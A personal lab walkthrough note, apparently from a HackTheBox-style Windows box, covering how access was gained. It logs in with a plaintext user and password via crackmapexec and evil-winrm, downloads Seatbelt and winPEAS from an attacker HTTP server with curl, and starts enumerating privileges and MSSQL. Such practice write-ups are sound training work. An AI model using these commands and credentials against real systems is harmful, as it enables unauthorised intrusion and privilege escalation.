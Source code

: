 ![[Pasted image 20241219205631.png]]
Cannot use psexec because there's no pwned. 

We can use #crackmapexec with #winrm though

`crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

![[Pasted image 20241219205845.png]]
Now can get a reverse shell. 

Let's do #evilwinrm 

`evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172`

![[Pasted image 20241219210050.png]]
Good screenshot to run `hostname; whoami; ipconfig`

![[Pasted image 20241219210150.png]]
Looking for privilege escalation vector with #seatbelt
Check [[Resolute]] for install
upload Seatbelt.exe to remote shell. 

![[Pasted image 20241219210346.png]]
It failed to run because of an encoding issue within evil-winrm. 

![[Pasted image 20241219210451.png]]

Need to transfer file using #pythonhttpserver 

`python3 -m http.server`

Retrieve using #curl

`curl 10.10.14.2:8000/Seatbelt.exe -o Seatbelt.exe`

Then run `.\Seatbelt.exe` on remote box. 

`.\Seatbelt.exe -group=all` 

Running #winpeas also because Seatbelt.exe didn't find much. 

`curl 10.10.14.2:8000/winPEAS.exe -o winPEAS.exe`

Execute winPEAS with `.\winPEAS.exe`

Manual enumeration time also  

`whoami /all`

We are a member of Azure Admins 

![[Pasted image 20241219222719.png]]
Playing with #SQLCMD to view the MSSQL Database

`sqlcmd -?` to get usage info

`sqlcmd -Q "select * from sys.databases"`
